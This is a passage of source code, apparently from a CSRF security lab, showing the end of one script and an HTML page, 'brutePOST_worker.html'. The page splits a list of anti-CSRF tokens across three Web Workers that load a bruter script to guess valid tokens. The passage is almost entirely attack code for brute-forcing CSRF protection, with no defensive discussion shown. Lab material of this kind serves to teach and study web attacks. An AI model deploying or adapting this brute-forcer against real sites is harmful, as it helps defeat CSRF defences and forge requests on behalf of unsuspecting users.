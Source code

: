 ```js

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean); // Remove empty lines

         // Brute Loop
         bruteLoop(tokens);
      </script>
   </body>
</html>


```

#### brutePOST\_worker.html

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         00411460f7c92d2124a67ea0f4cb5f85
      </textarea>
      <br>
      <h1>Workers results</h1>
      <span id="workers"></span>

      <script>
         function startBlock(worker, tokens) {
            worker.postMessage({
               'tokens': tokens
            });
         }

         var bruterPath = "csrf.labs.bruter.js";

         var ww1 = new Worker(bruterPath);
         ww1.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww1</b> says: " + e.data + "<br>";
         }, false);

         var ww2 = new Worker(bruterPath);
         ww2.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww2</b> says: " + e.data + "<br>";
         }, false);

         var ww3 = new Worker(bruterPath);
         ww3.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww3</b> says: " + e.data + "<br>";
         }, false);

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean);

         startBlock(ww1, tokens.slice(0, 333));
         startBlock(ww2, tokens.slice(333, 666));
         startBlock(ww3, tokens.slice(666, tokens.length));
      </script>

      <div>
         <img src="counter.gif" />
      </div>
   </body>
</html>
```